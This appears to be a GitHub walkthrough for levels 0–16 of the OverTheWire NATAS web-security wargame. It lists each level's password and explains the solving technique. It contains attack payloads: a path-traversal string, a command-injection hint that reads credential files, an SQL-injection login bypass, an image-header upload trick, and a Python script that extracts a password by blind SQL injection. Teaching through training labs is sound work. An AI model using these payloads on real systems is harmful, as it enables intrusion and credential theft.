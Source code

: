 # NATAS Walkthrough
A brief guide to solving NATAS Challenges on the OverTheWire platform. 

_Note: From challenge level 9 and above, I am just writing the hints that I noted while solving the challenges, which I used to write Python scripts (except for Challenge levels 12 and 13) that just scrapped the passwords. I hope to write a clearer and more beginner-friendly guide shortly._

Happy learning :)

## Natas answers for levels 1 - 15
### Level 0 -> 1
>Credentials are username - _natas0_	and password - _natas0_

In level 0, after logging in, right-click on the webpage to view the source code. The password for the next level will be mentioned in a comment in the source code.
 
### Level 1 -> 2
>credentials are username - _natas1_	and password - _g9D9cREhslqBKtcA2uocGHPfMZVzeFK6_

This level is similar to the previous level, only that right-click is now blocked. So instead we use the keyboard shortcut (_usually **ctrl+shift+c**, but could be different in the browser that you are using)  

### Level 2 -> 3
>Credentials are username - _natas2_ and password - _h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7_

We can view the source code at this level, but there are no comments. We do find another directory referenced in the source code as `<img src='files/pixel.png>` indicating that there is another directory where files exist. So you add the directory `/files` to the current URL. You should see a list of files in that directory and notice there is another file named _users.txt_. You should be able to find the password for the next level when reading this file.

### Level 3 -> 4
>Credentials are username - _natas3_	 and password - _G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q_

In the source code of this webpage, we find a comment that says `<!-- No more information leaks!! Not even Google will find it this time... -->` This hints us to look at the **_robots.txt_** file. So you add `/robots.txt` to the URL to view that file. This file tells 
search engines which directories they can or cannot crawl on the website. In this file, we find a directory that has not been allowed for crawling by bots, `s3cr3ts`. Now we replace the `/robots.txt` with the new found directory, and find the `users.txt` file, similar to the previous challenge. Here you will find the password for the next level.

### Level 4 -> 5
>Credentials are username - _natas4_	 and password - _tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm_

This level would require you to understand how to use Burpsuite (or another tool to manipulate headers). After logging into the website using the credentials found in the previous challenge, capture the headers that were sent in the GET request. Now, you will need to change the natas level from `natas4`(the rest of the value is the same) to `natas5`(the rest of the value is the same as the original). After changing the URL Referrer, send the GET request with the modified headers. You should be able to view the password for next level on the page content that gets returned to the request made. 

### Level 5 -> 6
>Credentials are username - _natas5_ and password - _Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD_

This level is similar to the previous level. The headers must be captured, and the login status must be changed from `False` to `True`. 

### Level 6 -> 7
>Credentials are username - _natas6_	and password - _fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR_

This level requires you to do more digging on the website. If you view the source code, there is a hint to the answer in the `/includes/secret.inc` page that is being referred to match the entered value. When you view that page, it is blank. This will confuse the attacker. However the referred variable in the source code of the main page is from the `secrets.inc` page, so there must be a variable with the correct value to unlock the password for the next level. If you view the source code of the blank page at `/includes/secrets.inc` you should find the variable that has the "secret" value that has been commented. 

### Level 7 -> 8
>Credentials are username - _natas7_ and password - _jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr_

The hint to find the answer that will give us the password is also in the source code. This time, the hint is direct and says that `<!-- hint: password for webuser natas8 is in etc/natas_webpass/natas8 -->`. This means that all we need to do is access this directory on their server to view the password for the next level. If you have used Linux before, then you must be familiar with using the `..` to change the working directory to the parent directory. If you haven't I would suggest you google about it and learn more, if possible try it out to understand better. There is a web vulnerability called Local File Inclusion, that allows a user to access the local files on a server using the `../` to go to the parent directory and then enter the directory that we want to view. When you view the "home" or "about" page, notice the keyword `?page=` in the URL. This will query the webserver to view the page mentioned after this keyword. So when we add the string `../../../../../../../etc/natas_webpass/natas8` after the `?page=` string in the URL and hit enter, the webpage should show the password for the next level. 

### Level 8 -> 9
>Credentials are username - _natas8_	and password - _a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB_

This time, you see a form field with a submit button. Similar to the previous challenges, we again begin by viewing the source code of the index page. Upon analyzing the source code, we understand that an encrypted key is already written in the source code. The encoded string has been encrypted using the function defined in the source code. 
`decodedstr = base64.b64decode(bytes.fromhex(encodedstr)[::-1]).decode('utf-8')`
### Level 9 -> 10
>Credentials are username - _natas9_  and password - _Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd_

inject the form field; hint " ; cat /etc/natas_webpass/natas10*"

### Level 10 -> 11
>Credentials are username - _natas10_	and password - _D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE_

inject the form field without ";", instead use "." (use the same injection string as used for the previous challenge)

### Level 11 -> 12
>Credentials are username - _natas11_	and password - _1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg_

XOR encryption. Encrypted string in the source code which also includes the order of encryption and encoding. 

### Level 12 -> 13
>Credentials are username - _natas12_	and password - _YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG_

upload a file, go to inspect > elements> change the random file name to the format that will unlock the password for the next level (a hint for this is in the source code).

### Level 13 -> 14
>Credentials are username - _natas13_	and password - _lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9_

Open the file in a notepad and then add image exif header `GIF87a` at the beginning and the rest is similar to natas12. You can use any other image exif headers as you just need to validate one of the functions that look for image exif headers on the file uploaded (see it in the source code). Refer to this Wikipedia page for other headers - https://en.wikipedia.org/wiki/List_of_file_signatures 

### Level 14 -> 15
>Credentials are username - _natas14_	and password - _qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP_

SQL injection string - username is `admin` and password is `" or "1"="1`

### Level 15 -> 16
>Credentials are username - _natas15_	and password - _TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB_

Blind SQL injection. Py code for blind injection. 
```python
import re, requests

url = 'http://natas15.natas.labs.overthewire.org/index.php'
auth = ('natas15','TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB') #auth creds from the previous challenge

passwdlist = []
ch = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" #charset
#the next 2 lines were written to understand the response of the query made. Then the rest of the code was built after understanding the TRUE and the FALSE response we receive. 
#resp = requests.get(url,auth=auth, params = {"username":"natas16\" and password like binary \"%"})
#print(resp.text)
for i in range(32):
    for j in ch:
        resp = requests.get(url,auth=auth, params = {"username":"natas16\" and password like binary \""+"".join(passwdlist)+j+"%"})
        if "This user exists" in resp.text: #if we get a TRUE response, we append that character into a list. 
            print(f"The character no {i+1} of the password found is : {j}")
            passwdlist.append(j)
            break

passwd = "".join(passwdlist)

print(f"\nThe password for Natas Level 16 is : {passwd}")

```

Credentials for the next challenge which is level 16 -> 17 are username - _natas16_ and password - _TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V_ 
